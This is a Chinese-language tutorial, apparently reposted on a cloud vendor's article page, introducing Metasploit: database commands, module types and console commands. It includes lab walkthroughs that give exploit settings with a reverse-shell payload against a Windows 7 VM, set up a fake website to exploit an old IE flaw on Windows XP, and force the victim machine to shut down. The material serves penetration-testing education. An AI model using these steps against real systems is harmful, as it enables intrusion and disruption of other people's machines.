[精选文章](https://www.huaweicloud.com/articles/articles-A-1.html) MSF——基本使用和Exploit模块（一）

# MSF——基本使用和Exploit模块（一）


*[作者：dishan4749253](https://www.huaweicloud.com/articles/b8ac0e93a080b1e4ad892eda72055aef.html#)* 时间: 2021-02-05 10:06:51

[标签：](https://www.huaweicloud.com/articles/topic-A-1.html)[数据库](https://www.huaweicloud.com/articles/topic_68051bf4aa2743b030984b694628ee9c.html)[操作系统](https://www.huaweicloud.com/articles/topic_30d23ef4f49e85f37f54786ff984032c.html)[shell](https://www.huaweicloud.com/articles/topic_2591c98b70119fe624898b1e424b5e91.html)

```
【摘要】MSF系列： MSF——基本使用和Exploit模块（一） MSF——Payload模块（二） MSF——Meterpreter（三） MSF——信息收集（四） MSF——Metasploit Framework 目前最流行、最强大、最具扩展性的渗透测试平台软件 2003年由HD More发布第一版，2007年用ruby语言重写，MSF默认集成在Kali Linux之中 ...
```

[[828企业上云\]注册领8280元礼包 1核2G服务器69元秒杀 **优惠**](https://activity.huaweicloud.com/828_promotion/index.html?organic_arc)

[[免费课程\]Python编程学习路径 **上新**](https://education.huaweicloud.com/programs/2708d678-5dbb-4be2-afc4-88ae69f0dca3/about?isAuth=0&amp?organic)

[[免费套餐\]1核2G 2核4G云服务器免费 云数据库0元试用 **热销**](https://activity.huaweicloud.com/free_test/index.html?organic_arc)

[[开发利器\]开发者专享优惠，解决研发效率、集成难题 **公告**](https://activity.huaweicloud.com/Developer_0820.html?organic_arc)

> MSF系列：
>
> MSF——基本使用和Exploit模块（一）
>
> MSF——Payload模块（二）
>
> MSF——Meterpreter（三）
>
> MSF——信息收集（四）

# MSF——Metasploit Framework

目前最流行、最强大、最具扩展性的渗透测试平台软件

2003年由HD More发布第一版，2007年用ruby语言重写，MSF默认集成在Kali Linux之中

Kali左侧有MSF的快捷方式，可以直接点击使用，也可以在终端输入msfconsole启动MSF



# msfdb

用来管理MSF的数据库的命令

```javascript
msfdb init # start and initialize the database
msfdb reinit   # delete and reinitialize the database
msfdb delete   # delete database and stop using it
msfdb start # start the database
msfdb stop # stop the database
msfdb status   # check service status
msfdb run # start the database and run msfconsole
```

# MSF架构——技术功能模块

MSF默认存放模块的目录如下

```javascript
/usr/share/metasploit-framework/modules/
```

MSF有6个模块，分别对上面目录下的6个子文件夹：

### auxiliary

负责执行信息收集、扫描、嗅探、指纹识别、口令猜测和Dos攻击等功能的辅助模块

### exploits

利用系统漏洞进行攻击的动作，此模块对应每一个具体漏洞的攻击方法（主动、被动） 

### payloads

成功exploit之后，真正在目标系统执行的代码或指令。分为3种类型的payload，分别是single、stages和stagers。shellcode是特殊的payload，用于拿shell。

- single：all-in-one。完整的payload，这些payload都是一体化的，不需要依赖外部的库和包。
- stagers：目标计算机内存有限时，先传输一个较小的payload用于建立连接
- stages：利用stagers建立的连接下载后续payload 

### encoders

对payload进行加密，躲避AntiVirus检查的模块

### nops

提高payload稳定性及维持大小。在渗透攻击构造恶意数据缓冲区时，常常要在真正要执行的Shellcode之前添加一段空指令区， 这样当触发渗透攻击后跳转执行ShellCode时，有一个较大的安全着陆区，从而避免受到内存 地址随机化、返回地址计算偏差等原因造成的ShellCode执行失败，提高渗透攻击的可靠性。

### post

后期渗透模块。在取得目标系统远程控制权后，进行一系列的后渗透攻击动作，如获取敏感信息、跳板攻击等操作 

# 基本使用

## Kali中更新MSF

```javascript
apt update
apt install metasploit-framework
```

## msfconsole

控制台命令支持TAB补全，支持外部命令的执行（系统命令）

- help或?

  ：

  - 显示msfconsole可以使用的命令。help ，显示某一命令的用法。

- connect

  ：

  - 可以理解成MSF中的nc命令，可以使用connect -h查看详细用法。
  - connect [options]

- show

  ：

  - 用show命令查看msf提供的资源。在根目录下执行的话，由于有些模块资源比较多，需要执行show命令要较长的时间
  - show exploits：查看可以使用的exploit
  - 除了exploits，还支持all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options。有些选项需要用use使用一个模块后才能使用，比如给show targets。

- search

  ：

  - 搜索模块
  - 简单搜索：seach ms17_010
  - 多条件搜索缩小范围：search name:mysql type:exploit platform:linux

- info

  ：

  - 查看模块的信息
  - info 
  - 如果用use使用了一个模块，直接输入info即可查看

- use

  ：

  - search找到模块后，用use使用模块

  - use exploit/windows/smb/ms08_067_netapi

  - 用use使用一个模块后，可以使用 show options查看我们需要配置的选项、使用show targets选择目标主机系统、使用show payloads选择payload、使用show advanced查看高级参数、使用show evasion查看用来做混淆、逃避的模块。

  - set/setg

    ：

    - 设置参数，比如要渗透的主机IP、payload等。我们可以用show missing查看没有设置的参数
    - setg是设置全局变量，避免每个模块都要输入相同的参数

  - unset/unsetg

    :

    - 取消设置参数。unsetg是取消设置的全局变量

  - save

    ：

    - 设置的参数在下一次启动的时候不会生效，可以用save保存我们使用过程的设置。

  - check

    ：

    - 检查目标是否真的存在这个漏洞，大部分模块没有check功能

  - back

    ：

    - 回到msfconsole根目录
    - 

- run或exploit

  ：

  - 开始使用模块
  - exploit -j：以后台的方式运行

- sessions

  ：

  - 查看当前已经建立的sessions，说明已经拿到了shell
  - sessions -i id 可以进入一个session交互

- load/unload

  ：

  - 调用外部的扫描命令，比如openvas
  - 
  -  

- loadpath

  ：

  - 加载自己的模块 

- route

  ：

  - 添加一条路由。比如发往某个子网的流量都通过攻陷的机器发送。

##  msf数据库相关

**db_status**：

- 查看MSF有没有连接上后台数据库。如果没有连上数据库，在终端输入msfdb start后再启动MSF。没有连接上数据库MSF也是可以使用的，只是连接上了的话，我们渗透过程中获取的一些信息可以保存下来，比如目标机器的账号密码信息等。

**db_rebuild_cache**：

- 这个命令将所有模块信息缓存到数据库中，通过数据库检索效率就高很多了。

**db_disconnect**：

- 断开数据库连接。

**db_connect**：

- msf默认连上postgresql的msf数据库。可以用db_connect连接我们指定的数据库。如果要使用配置文件进行连接，默认的数据库配置文件为/usr/share/metasploit-framework/config/database.yml，可以参考这个文件进行编写。

**db_nmap**：

- 集成在msf中的namp扫描命令。不同的是db_nmap扫描的结果会自动保存到数据库中。
- 可以输入hosts查看扫描到的主机信息
- 如果数据多，可以用 hosts IP 进行过滤；hosts -u 查看up状态的机器；使用 hosts -c 列名[,列名] 指定要看的列；使用 hosts -S 进行搜索，比如hosts -S windows。
- 输入services可以查看主机开放的端口情况

**creds：**

- 查看扫描出来的密码信息

**vulns：**

- 查看扫描出来的漏洞信息

**loot**：

- 有些账号密码我们可能没有获取到明文信息，可是经过加密的hash值，可以用这个显示

**db_export/db_import**：

- 数据库的导入和导出
- db_export -f /root/msfbak.xml
- nmap导出的也可以导入到msf中
- nmap -A 192.168.1.113 -oX nmap.xml => db_import -f /root/nmap.xml

#  Exploit模块

分为Active Exploit和Passive Exploit

**Active Exploit**

目标提供了某种服务，服务存在漏洞

- use exploit/windows/smb/ms17_010_psexec
- set RHOST 192.168.1.100
- set PAYLOAD windows/shell/reverse_tcp
- set LHOST 192.168.1.1
- set LPORT 4444
- set SMBUSER user1
- set SMBPASS pass1
- exploit

**Passive Exploit**

被攻击者通常不开放端口或开放端口上的服务没有漏洞，漏洞存在于受害者机器上的客户端软件上。客户端需要访问某些远程服务器上的服务，当它访问的时候，当在服务器上放置了漏洞利用代码，由于客户端程序存在漏洞，服务器也会将这些漏洞利用代码作为响应报文返回给客户端，造成客户端漏洞被利用。

- use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
- set URIPATH /
- set PAYLOAD windows/shell/reverse_tcp
- set LHOST 192.168.1.1
- set PORT 4444
- exploit 

## Active Exploit演示

实验机器

- 受害者：Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601，关闭Windows7防火墙。IP地址为192.168.171.133
- 攻击者：Kali 4.18.0。IP地址为192.168.171.129

Kali上启动MSF，可以先启动postgresql数据库，防止后面MSF连不上数据库

```javascript
service postgresql start
```

我们利用exploit/windows/smb/ms17_010_psexec进行攻击，由于它是基于SMB协议的，我们需要知道目标系统的一个用户账号和密码，适合在已经知道目标系统账号密码并开放SMB端口的情况下进行攻击。

然后设置受害者的IP地址，账号和密码，并设置payload为windows/shell/reverse_tcp。这是一个反弹连接，我们还需要设置目标反弹连接时的IP地址和端口。

 然后输入exploit执行，可以看到已经创建了一个session

 

通过session -l可以查看已经创建的会话



根据上面的Id，我们可以sessions -i 1进入这个shell



查看一下目标的机器IP



可以看到上面有很多乱码，在Kali的终端中，我们可以设置shell中字符的编码



 这时候就不会是乱码了 



## Passive Exploit演示

实验机器

- 受害者：Windows XP SP2 professional。IP地址为192.168.171.135
- 攻击者：Kali 4.18.0。IP地址为192.168.171.129

打开XP的防火墙


这时候用Active的方式进行攻击不会成功，采用Passive方式，构造一个链接，诱使被害者连接，利用浏览器的漏洞。


我们要伪造一个网站，诱使受害者攻击。SRVHOST可以指定为本机的IP地址，我们也可以打开SSL和设置SSL的证书，迷惑有安全意识的用户。

URIPATH是访问的URL地址，可以手动指定，比如192.168.171.129/service，这里我们默认设置为根目录即可。



 然后输入exploit



它不会主动向受害者的机器发送利用代码，而是伪造了一个存在漏洞利用代码的WEB站点，这个站点等待IE版本存在漏洞的用户去访问它，将exploit注入到浏览器进程中，利用浏览器漏洞执行payload

我们在XP机器上用IE浏览器访问这个URL

Kali上已经有了一个sessions，进入这个sessions



 输入以下命令让XP机器关机 

```javascript
shutdown -s -f -t 0
```

## 

在XP上就会看到机器正在关机

 